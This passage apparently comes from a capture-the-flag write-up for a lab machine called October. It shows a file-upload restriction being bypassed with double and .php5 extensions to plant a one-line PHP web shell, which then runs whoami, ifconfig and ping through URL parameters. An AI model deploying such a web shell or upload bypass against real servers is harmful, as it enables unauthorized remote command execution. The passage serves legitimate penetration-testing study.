My next attempt is to upload a file with double extension to bypass the restriction it has and **I succeed**, so I can upload a **PHP web shell**, but when I try to execute command remotely (**RCE**) I can't do it. As the file I found has a **.php5** extension I'm going to upload the web shell but with this **PHP version** and now if I can execute the first enumeration commands, I can also confirm that I'm in the victim machine thanks to the `ifconfig` command.

```bash
mv test.php test.php.jpeg
file test.php.jpeg

# http://10.10.10.16/storage/app/media/test.php.jpeg

nvim shell.php
cat !$
```

> **shell.php**:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</pre>";
?>
```

```bash
mv shell.php shell.php.png
# http://10.10.10.16/storage/app/media/shell.php.png?cmd=whoami
# :(

mv shell.php.png shell.php5

# http://10.10.10.16/storage/app/media/shell.php5?cmd=whoami
# http://10.10.10.16/storage/app/media/shell.php5?cmd=ifconfig

tcpdump -i tun0 icmp -n
# http://10.10.10.16/storage/app/media/shell.php5?cmd=ping -c 2 10.10.14.5
# :)
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
